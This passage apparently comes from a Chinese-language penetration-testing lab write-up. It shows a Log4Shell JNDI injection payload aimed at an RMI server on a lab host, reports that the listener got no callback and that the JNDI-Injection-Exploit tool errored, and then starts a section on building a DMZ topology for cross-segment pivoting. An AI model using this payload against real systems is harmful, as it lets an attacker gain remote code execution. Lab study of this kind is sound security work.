```
${jndi:rmi://192.168.17.130:1099/z8ocvj}
```

![send](img/send2.png)

在监听端口没有监听到，且执行`JNDI-Injection-Exploit`发生了报错。

![error](img/error-4.png)

### 跨网段渗透（常见的dmz）

#### 自定义拓扑场景

官方在线平台不提供场景镜像下载和分享，所以需要自行构建相应的拓扑场景和镜像。首先在网卡管理添加两个网卡`dmz`和`核心网`，具体设置图下图。
